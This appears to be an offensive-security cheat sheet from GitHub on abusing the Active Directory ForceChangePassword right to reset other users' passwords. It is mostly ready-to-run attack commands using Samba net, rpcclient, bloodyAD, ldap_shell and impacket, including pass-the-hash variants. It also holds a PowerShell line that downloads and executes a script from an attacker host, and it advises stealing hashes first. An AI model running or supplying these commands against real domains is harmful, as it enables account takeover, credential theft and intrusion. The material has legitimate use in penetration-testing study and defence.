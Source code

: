 # Abusing ForceChangePassword

If an user have ForceChangePassword over another user can change that user password. If you have other options to steal the hash from that user, I strongly recommend you to do it before change their password. That hash could be valid for other users if password is reused. 

### From Linux (enternally recomended):

Samba tools -> `net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'<password>' -S '<dc_ip>'`

rpcclient -> `-U <domain>/<controlled_user> <dc-ip>`

`rpcclient $> setuserinfo <target_user> 23 <new_password>`

BloodyAD -> `bloodyAD --host 'dc_ip' -d '<domain>' -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

Using SMB protocol.
 - In case LDAP is not an option you can still abuse ForceChangePassword over SMB protocol using impacket tools:

`changepasswd.py <domain>/<target_user>@<ip> -newpass <new_password> -altuser <domain>/<controlled_user> -altpass <controlled_user_password> -reset`

Note: use 'impacket-changepasswd' for kali, and 'changepasswd.py' from normal UNIX/LINUX machines.

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' set password '<target_user>' '<new_password>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

### From Windows (internally):

Load powerview -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`$NewPassword = ConvertTo-SecureString '<new_password>' -AsPlainText -Force`

`Set-DomainUserPassword -Identity '<target_user>' -AccountPassword $NewPassword`



### Articles:

https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/

https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
